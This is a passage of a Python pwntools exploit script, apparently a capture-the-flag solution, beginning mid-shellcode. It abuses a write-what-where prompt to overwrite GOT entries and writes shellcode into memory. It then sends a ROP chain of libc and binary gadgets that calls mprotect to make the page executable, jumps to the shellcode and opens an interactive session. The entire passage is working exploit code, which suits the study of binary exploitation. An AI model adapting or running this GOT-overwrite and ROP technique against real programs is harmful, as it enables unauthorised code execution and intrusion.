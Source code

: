 ```py
 mov esi, 0x404500;
 mov edx, 80;
 xor eax, eax;
 syscall ;
 mov edi, 1;
 mov esi, 0x404500;
 mov edx, 80;
 mov eax, 1;
 syscall ;""")
if len(shellcode) % 4 != 0: shellcode += b'\x00'*(4 - (len(shellcode) % 4)) # padding
SHELLCODE_ADDR = 0x404600

log.info("writing shellcode")
i = 0
while True:
    sc = shellcode[i*4:i*4+4]
    if len(sc) == 0:
        break
    p.recvuntil(b'where?\n')
    p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
    p.recvuntil(b'where?\n')
    p.sendline(str(SHELLCODE_ADDR+i*4).encode('utf-8'))
    p.recvuntil(b'What?\n')
    p.sendline(str(int.from_bytes(sc, 'little')).encode('utf-8'))
    p.recvuntil(b'challenge?\n')
    p.sendline(b'nobody asked')
    i += 1
log.info("shellcode done writing")
pause()


log.info("preparing rop chain")
rop = b''
rop += p64(LIBC_BASE + 0x1626d6) # pop rdx; pop rbx; ret
rop += p64(7)
rop += p64(0)
rop += p64(0x00401439) # pop rsi; pop r15; ret
rop += p64(0x1000)
rop += p64(0)
rop += p64(0x0040143b) # pop rdi; ret
rop += p64(0x00404000)
rop += p64(LIBC_BASE + 0x11b970) # mprotect(0x00404000, 0x1000, READ | WRITE | EXEC)
rop += p64(SHELLCODE_ADDR+9)

log.info("writing rop chain")
p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
p.recvuntil(b'where?\n')
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.recvuntil(b'What?\n')
p.sendline(str(0x0040143b).encode('utf-8')) # pop rdi; ret
p.recvuntil(b'challenge?\n')
p.sendline(rop)
log.info("done writing rop chain")
pause()
p.interactive()
```
